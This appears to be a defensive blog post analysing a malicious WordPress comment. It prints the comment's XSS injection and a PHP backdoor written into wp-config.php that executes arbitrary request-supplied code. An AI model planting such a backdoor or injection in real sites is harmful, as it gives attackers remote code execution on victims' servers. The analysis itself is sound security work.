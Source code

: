 ```yaml
---
layout: post
title: Exploring malicious wordpress comment spam
tags:
 - wordpress
 - security
 - code
 - analysis
 - encryption
---
```


**DISCLAIMER:** The contents of this post may contain code that is unsafe to run. The
purpose of this post is purely exploratory and meant for defensive purposes, and not as an intro to
1337 hax0ring. If you use the knowledge below for bad, don't blame me when the feds' party van comes
for you. Your actions are your own.

*Last updated on 2014-01-07 17:25 CST*

### Introduction ###

I manage a few WordPress websites in my spare time. Most of the sites don't have comments enabled,
but a few do, so on occasion I'll be alerted to new comments. The majority of those comments are
spam (usually having something to do with advertising SEO opportunities) and thus are left in the
purgatory of the moderation queue. However, one would-be comment was different from the usual
fake-SEO tripe. This post will examine this particular comment and explore its malicious properties.

*Tl;dr? see the summary at the bottom of this post.*

<!--more-->

### The raw comment ###

This is the email notification I received when the comment was created. It includes the relevant
metadata as well as the raw comment itself:

{% highlight text %}
A new comment on the post "Post" is waiting for your approval
POST-URL

Author : Wasia (IP: 50.63.194.123 , p3nlhg1391.shr.prod.phx3.secureserver.net)
E-mail : aaa@aaa.com
URL    :
Whois  : http://whois.arin.net/rest/ip/50.63.194.123
Comment:
Welcome to WordPress. This is your first post. [<a title="]" rel="nofollow"></a>[\" <!--
style=\'position:fixed;top:0px;left:0px;width:6000px;height:6000px;color:transparent;z-index:999999999\'
onmouseover="eval(atob(\'naughty-javascript-in-base-64-goes-here'))" &gt; --><a></a>] Edit or delete it, then start blogging!

Approve it: APPROVE-URL
Trash it: TRASH-URL
Spam it: SPAM-URL
Currently 100 comments are waiting for approval. Please visit the moderation panel:
PANEL-URL

{% endhighlight %}

The comment appears to be setup to force anyone who visits the page it inhabits to run some
obfuscated javascript (the large chunk of characters within the <code>eval(atob())</code> ).

### De-obfuscating the comment's JavaScript ###
De-obfuscation of the javascript is accomplished by decoding the block of characters inside of the
atob() function call from base-64. It's now clear that this script is trying to create an iframe on
the page and fill it with the wordpress installation's plugin editor in order to edit the
<code>hello.php</code> plugin. If the desired changes have already been made, then it will instead
set the iframe to run the modified <code>hello.php</code> script.

But what are those changes? I found the answer by decoding a base-64 string that was being added (in
decoded form) to <code>hello.php</code>. It turned out to be a chunk of PHP that serves to exploit
incorrect file permission settings to allow for arbitrary remote code execution. 

### Overview of the modifications to hello.php ###

The main target of the attack appears to be <code>wp-config.php</code>, a file that holds important
settings for WordPress sites (like database access credentials). The script injects some code into
<code>wp-config.php</code> (reproduced in a more readable form below):

#### Injection into wp-config.php ####
{% highlight php linenos=table %}
<?php
if (isset($_REQUEST['FILE'])){
    $_FILE = $_REQUEST['unique-value-here']('$_',$_REQUEST['FILE'].'($_);');
    $_FILE(stripslashes($_REQUEST['HOST']));
}
?>
{% endhighlight %}

It appears that by adding this code the attacker can execute arbitrary code contained in a
specially-crafted request to <code>wp-config.php</code>. Specifically, any request with the 'FILE'
variable set will execute the code supplied by the request variable with the same name as a unique
ID generated previously in the script. This provides the attacker with the ability to limit access
to this exploit. 

Next, the script moves to correct the permissions of <code>wp-config.php</code> in order to prevent
other attackers from gaining control (a consistent theme in this script, as will be shown below).
Another consistent theme of this attack is the clever hiding of modified files' modification dates.
This ensures that a simple directory listing doesn't give away that the exploit has occurred. 

#### Phoning home: report() ####

In order for the attacker to make use of the now-compromised site, it is necessary for them to
obtain the unique ID in the script. The <code>report()</code> function sends that and the WordPress
installation's host to a hardcoded list of sites. The reporting action is accomplished via a series
of HTTP GET requests containing this information as a URL parameter.

#### Basic encryption: Uno_encode() ####

{% highlight php %}
<?php
function Uno_encode($String)
{
    $Salt='dc5p9dOpBc';
    $StrLen = strlen($String);
    $Seq = 'DMEf5HZuPq';
    $Gamma = '';
    while (strlen($Gamma)<$StrLen)
    {
        $Seq = pack("H*",sha1($Gamma.$Seq.$Salt));
        $Gamma.=substr($Seq,0,8);
    }

    return base64_encode($String^$Gamma);
}
?>
{% endhighlight %}

The data reported back to the attackers is first encrypted by the <code>Uno_encode()</code>
function. It's notable because it doesn't use a standard cryptosystem (like AES or RSA);
instead, it takes a much simpler approach by creating a sort of static key and then XORing it with
the string to be encrypted. Decryption can be accomplished by sending the base-64 decoded ciphertext
through the same function, like this:

{% highlight php %}
<?php
function Uno_decode($String)
{
    return base64_decode(Uno_encode(base64_decode($String)));
}
?>
{% endhighlight %}

Of course, this requires that you know the values for <code>$Salt</code> and <code>$Seq</code> (as
well as the rest of the algorithm), so it's reasonably secure as long as those secrets aren't known.
Unfortunately for the attackers, now they *are* known, and they now wish they had chosen an asymmetric
algorithm instead (since exposing a public key wouldn't have also exposed their communications).

#### Self-patching and self-removal ####

After modifying <code>wp-config.php</code> and reporting back, the script takes steps to hide its
tracks and secure the injected code's place in the WordPress installation. First, it removes the
original malicious comment from the MySQL database. Next, it patches the WordPress installation by
modifying the <code>wp-comments-post.php</code> file to completely block the posting of new
comments. It's definitely a sledgehammer approach to fixing the vulnerability used in this exploit,
but it works as long as no one gets curious as to why new comments can't be posted. Finally, the
script removes itself from <code>hello.php</code>. It uses an MD5 hash value at the bottom of the script
as a boundary marker to indicate where the malicious script ends and the original content begins. 

### Summary ###

This exploit originates as a comment designed to look like the default WordPress post. The first
time it's viewed it runs some JavaScript which adds the PHP previously described to a plugin,
<code>hello.php</code>. The second time the comment is viewed it executes the plugin, in turn
running code that

 1. injects more PHP into the WordPress installation's settings file, <code>wp-config.php</code>,
 2. sends information back to the attackers (allowing them to execute
arbitrary code with a specially-crafted request using the injected code from 1.),
 3. removes the comment, and
 4. removes the malicious code added to <code>hello.php</code>.

#### Requirements for vulnerability ####

Now that I've gone through the exploit I think I can speculate as to what it would take for a
WordPress site to be vulnerable to it. It seems to require the following to be true:

 1. Commenting must be enabled
 2. Commenting must be open to everyone
 3. Comments must be automatically approved (no moderation queue)
 4. The web server (or whatever entity is running WordPress) must be able to write to the WordPress
    installation directory

Number 4 is the big one, since many folks installing WordPress themselves can make the easy mistake
of using incorrect file system permissions.


### Final thoughts ###

Something that struck me as odd was that there wasn't an immediate attempt to exfiltrate the
database access credentials. Wouldn't a list of valid credentials be valuable?

### BONUS -- A CONNECTION TO ANOTHER EXPLOIT?! ###

I got curious about the MD5 hash (<code>49de371511c1de3bde34b0108ec7f129</code>) at the bottom of
the PHP code that gets added to <code>hello.php</code> and did some googling. [This
guy](https://www.planetspork.com/w/2014/11/this-seems-interesting/) had someone try to use
shellshock to add some PHP to his site, and as part of the PHP's access control it compares the MD5
of the requesting browser's user agent to the MD5 hash value listed at the bottom of the PHP in this exploit.
It seems that the same entity might be responsible for both exploits.

### References / Resources Used ###
 * [Base-64 decoder](https://www.base64decode.org/) to decode the base-64 strings
 * [w3schools](http://www.w3schools.com/jsref/met_win_atob.asp) to brush up on basic JavaScript
 * [The PHP Manual](http://php.net/manual/en/index.php) for a refresher on common PHP functions
 * The \#crypto channel on the [Freenode IRC network](http://freenode.net/)

